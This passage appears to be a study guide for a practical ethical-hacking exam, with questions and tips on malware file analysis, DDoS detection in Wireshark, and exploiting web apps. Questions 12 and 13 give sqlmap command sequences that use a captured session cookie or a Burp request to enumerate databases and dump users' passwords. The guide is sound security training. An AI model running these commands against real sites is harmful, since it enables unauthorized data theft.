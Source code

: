
Question-10.  Find a file entry point. File is given

Tips:-   Use DIE(detect it easy) or exeinfo PE tools.

>>>>>>Suggested lectures: Analyze ELF Executable File using Detect It Easy (DIE), Find the Portable Executable (PE) Information of a Malware Executable File



Question-11.  From a pcap file, analyze a DDOS attack and provide the IP address that sent most packets.

Tips:-   Use Wireshark and statistics tab

>>>>>>Suggested lectures: Detect DDOS attack with Wireshark



Question-12.  You are provided a username/password for a website. Use SQL Injection attack to extract the password of another user.

Tips:-   Log in with the given credential. Use cookie to extract the password of a user from the table with sqlmap.

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names

$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump t

>>>>>>Suggested lectures: SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMAP THM Free Room)



Question-13.  Exploit a web application at www.xxxx.com and enter the flag value from given page.

Tips:-  Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap

sqlmap -r <txt file from burpsuite> -D <database name> --tables

sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns

sqlmap -r <txt file from burpsuite> -D <database name> --dump

sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users

>>>>>>Suggested lectures: SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMAP THM Free Room)



Question-14.  Perform vulnerability research and exploit the target at given site.

Tips:-   Scan the target with Zapp to find the vulnerability. Then exploit it. It can be file upload/ File inclusion vulnerability on DVWA.

>>>>>>Suggested lectures: - DVWA file upload, File Inclusion
